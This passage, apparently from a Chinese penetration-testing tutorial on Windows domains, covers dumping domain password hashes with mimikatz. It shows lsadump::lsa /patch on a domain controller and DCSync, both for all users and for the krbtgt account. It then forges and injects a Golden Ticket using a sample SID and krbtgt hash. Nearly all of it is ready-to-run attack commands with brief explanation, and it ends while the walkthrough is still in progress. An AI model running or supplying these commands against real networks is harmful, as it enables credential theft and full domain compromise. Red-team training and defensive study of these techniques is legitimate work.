 **3.4.1mimikatz 导出域内 hash**

mimikatz 有两种方式可以导出域内 hash。

1、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 出密码哈希。

```
mimikatz log "privilege::debug" "lsadump::lsa /patch" exi
```

![](https://image.3001.net/images/20200304/1583302107796.png!small)

另外一种方式是通过 dcsync，利用目录复制服务（DRS）从 NTDS.DIT 文件中检索密码哈希值，可以在域管权限下执行获取。

```
lsadump::dcsync /domain:test.com /all /csv
```

![](https://image.3001.net/images/20200304/15833021213249.png!small)

也可以制定获取某个用户的 hash：

```
lsadump::dcsync /domain:test.com /user:test
```

![](https://image.3001.net/images/20200304/15833021346659.png!small)

**3.4.2 黄金票据**

域中每个用户的 Ticket 都是由 krbtgt 的密码 Hash 来计算生成的，因此只要获取到了 krbtgt 用户的密码 Hash，就可以随意伪造 Ticket，进而使用 Ticket 登陆域控制器，使用 krbtgt 用户 hash 生成的票据被称为 Golden Ticket，此类攻击方法被称为票据传递攻击。

首先获取 krbtgt 的用户 hash:

```
mimikatz "lsadump::dcsync /domain:xx.com /user:krbtgt"
```

![](https://image.3001.net/images/20200304/15833021454668.png!small)

在普通域成员上执行 dir 命令提示 “拒绝访问”：

![](https://image.3001.net/images/20200304/15833021564184.png!small)

之后利用 mimikatz 生成域管权限的 Golden Ticket，填入对应的域管理员账号、域名称、sid 值，如下：     

```
kerberos::golden /admin:administrator /domain:ABC.COM /sid:S-1-5-21-3912242732-2617380311-62526969 /krbtgt:c7af5cfc450e645ed4c46daa78fe18da /ticket:test.kiribi
```

![](https://image.3001.net/images/20200304/15833021736848.png!small)

导入刚才生成的票据：

```
kerberos::ptt test.kiribi
```
